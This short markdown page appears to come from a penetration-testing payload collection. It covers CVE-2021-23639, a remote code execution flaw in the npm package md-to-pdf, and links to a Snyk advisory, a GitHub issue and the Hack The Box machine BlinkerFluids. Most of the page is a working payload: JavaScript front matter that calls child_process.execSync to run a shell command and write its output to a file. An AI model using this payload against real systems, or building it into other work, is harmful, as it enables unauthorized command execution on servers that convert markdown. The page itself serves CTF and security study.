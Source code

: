 ```yaml
---
title: CVE-2021-23639 npm md-to-pdf
sidebar: mydoc_sidebar
permalink: cve-2021-23639.html
folder: Payloads
---
```


Need to read:
- <https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880>
- <https://github.com/simonhaenisch/md-to-pdf/issues/99>

Example: HTB - BlinkerFluids

Payload

```
---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE
```
